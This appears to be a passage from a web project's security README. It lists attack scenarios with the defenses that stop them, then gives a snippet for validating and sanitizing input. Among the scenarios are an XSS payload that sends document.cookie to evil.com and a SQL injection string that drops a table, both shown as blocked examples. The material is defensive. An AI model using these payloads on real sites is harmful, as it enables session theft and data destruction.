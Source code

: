 
## 🔥 Real-World Attack Prevention

### Scenario 1: Script Kiddie
**Attack**: Posts `<img src=x onerror=fetch('evil.com?c='+document.cookie)>`  
**Defense**: HTML escaped, onerror stripped  
**Result**: ✅ Rendered as harmless text

### Scenario 2: DDoS Bot
**Attack**: Sends 500 requests/second  
**Defense**: Throttled at 100/minute, session blocked  
**Result**: ✅ Bot blocked, service continues

### Scenario 3: Malware Upload
**Attack**: Uploads virus.exe.jpg (10MB)  
**Defense**: Size rejected (>5MB), type validated  
**Result**: ✅ Upload rejected before processing

### Scenario 4: SQLi Attempt
**Attack**: Posts `'; DROP TABLE threads;--`  
**Defense**: HTML escaped, SQL-safe encoding  
**Result**: ✅ Stored as safe text

### Scenario 5: Clickjacking
**Attack**: Embeds your site in evil.com iframe  
**Defense**: X-Frame-Options + JavaScript check  
**Result**: ✅ Frame breaks out or redirects

---

## 📖 Developer Guide

### Adding New Input Fields

Always use this pattern:
```javascript
const userInput = document.getElementById('my-input').value;

// 1. Validate
const validation = SecurityManager.validateInput(userInput, 'text', {
    maxLength: 500,
    required: true
});

if (!validation.valid) {
    alert(validation.error);
    return;
}

// 2. Check suspici ous patterns
if (SecurityManager.isSuspiciousInput(userInput)) {
    SecurityManager.logSecurityEvent('suspicious_input', { field: 'my-input' });
    return;
}

// 3. Sanitize
const safe = SecurityManager.sanitizeHTML(userInput);

// 4. Render safely
element.textContent = safe; // textContent, NOT innerHTML
```
